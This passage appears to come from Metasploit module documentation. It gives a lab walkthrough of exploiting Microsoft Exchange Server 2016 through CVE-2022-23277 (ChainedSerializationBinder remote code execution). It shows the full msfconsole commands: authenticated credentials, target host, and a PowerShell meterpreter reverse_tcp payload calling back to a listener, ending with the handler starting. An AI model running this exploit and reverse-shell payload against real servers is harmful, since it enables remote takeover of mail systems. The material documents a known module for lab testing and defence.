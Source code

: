 ```
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter >
```

### Exchange Server 2016 CU22 Jan22SU (Build 15.1.2375.18) on Windows Server 2016 x64 (CVE-2022-23277)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce 
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options 

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.42   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b